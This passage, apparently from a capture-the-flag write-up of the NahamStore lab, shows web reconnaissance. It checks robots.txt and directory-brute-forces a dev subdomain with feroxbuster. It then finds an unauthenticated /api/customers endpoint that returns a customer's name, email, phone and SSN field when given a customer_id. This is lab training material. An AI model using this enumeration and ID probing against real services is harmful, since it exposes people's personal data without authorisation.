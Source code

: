 **robots.txt:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore.thm/robots.txt                            
User-agent: *
```

Nothing in `robots.txt`

> After finishing `Task 9 - RCE` question 2...

**In the `nahamstore-2020-dev` subdomain, we can see it's a blank page:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore-2020-dev.nahamstore.thm/          
          
```

**We can enumerate hidden directory via `feroxbuster`:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# feroxbuster -u http://nahamstore-2020-dev.nahamstore.thm/ -w /usr/share/wordlists/dirb/common.txt -t 100 -o ferox.txt
[...]
200      GET        0l        0w        0c http://nahamstore-2020-dev.nahamstore.thm/
302      GET        0l        0w        0c http://nahamstore-2020-dev.nahamstore.thm/api => /api/
302      GET        0l        0w        0c http://nahamstore-2020-dev.nahamstore.thm/api/customers => /api/customers/
[...]
[####################] - 11s     4614/4614    406/s   http://nahamstore-2020-dev.nahamstore.thm/ 
[####################] - 10s     4614/4614    444/s   http://nahamstore-2020-dev.nahamstore.thm/api 
[####################] - 10s     4614/4614    439/s   http://nahamstore-2020-dev.nahamstore.thm/api/customers
```

**Found `/api/` and `/api/customers` directory.**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore-2020-dev.nahamstore.thm/api/
{"server":"nahamstore-2020-dev.nahamstore.thm"}
```

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl http://nahamstore-2020-dev.nahamstore.thm/api/customers/
["customer_id is required"]
```

When we reach to `/api/customers/`, it shows the above error message, and **it needs `customer_id` GET parameter.**

**Let's supply it and see what will happend:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# curl -s http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2 | jq
{
  "id": 2,
  "name": "Jimmy Jones",
  "email": "jd.jones1997@yahoo.com",
  "tel": "501-392-5473",
  "ssn": "{Redacted}"
}
```
